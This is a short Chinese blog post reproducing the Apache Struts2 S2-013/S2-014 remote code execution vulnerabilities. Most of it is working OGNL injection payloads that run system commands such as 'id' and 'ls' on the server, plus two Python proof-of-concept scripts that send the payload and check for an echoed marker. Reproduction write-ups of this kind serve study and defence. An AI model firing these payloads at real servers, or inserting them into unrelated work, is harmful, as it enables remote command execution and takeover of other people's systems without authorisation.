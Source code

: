 date: 2020-02-08
categories:
- cve复现
tags:
- cve复现
title:  S2-013_S2-014远程代码执行漏洞
---
# S2-013/S2-014 远程代码执行漏洞



## 利用条件

structs2  版本: 2.0.0 - 2.3.14.1 



## 利用脚本

s2-013

```
link.action?xxx=${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

link.action?xxx=${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```



s2-014

```
http://localhost:8080/S2-013/link.action?xxxx=${(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec("ls"))}
```



## 检测脚本

S2-013

```python
import requests

def poc(url):
    url+='''/link.action'''
    data={
        'xxx':'''${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('echo structs2_s2-013_vuln_checkflag').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}'''
    }
    try :
        res=requests.get(url,params=data,proxies={"http":"http://127.0.0.1:8080"})
        if "structs2_s2-013_vuln_checkflag" in res.text and res.status_code==200:
            return True
    except :
        pass
    return False

```



S2-014

```python
import requests

def poc(url):
    url+='''/link.action'''
    data={
        'xxx':'''${(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec("echo structs2_s2-014_vuln_checkflag"))}'''
    }
    try :
        res=requests.get(url,params=data,proxies={"http":"http://127.0.0.1:8080"})
        if "structs2_s2-014_vuln_checkflag" in res.text and res.status_code==200:
            return True
    except :
        pass
    return False

```





## 参考

 https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md 
